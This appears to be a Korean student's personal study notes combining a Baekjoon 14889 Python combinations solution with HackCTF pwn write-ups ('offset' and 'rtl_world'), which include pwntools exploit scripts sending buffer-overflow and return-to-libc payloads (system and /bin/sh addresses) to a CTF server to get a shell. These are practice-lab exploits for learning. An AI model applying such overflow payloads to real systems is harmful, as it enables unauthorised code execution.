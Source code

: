 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

## RTL_world 풀이

checksec 입력시

CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial


이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

코드

이하 생략 ( 상단 choichanghyeok 이동 / 레벨 문제 / hackCTF문제 / RTL 풀이 )

개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

## hackctf: rtl_world
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)
p.sendline('5')
p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)
bin_addr = p32(0x8048eb1)

payload = "A"*144
payload += system_addr
payload += "A"*4
payload += bin_addr

p.sendline(payload)
p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 가 나온다.

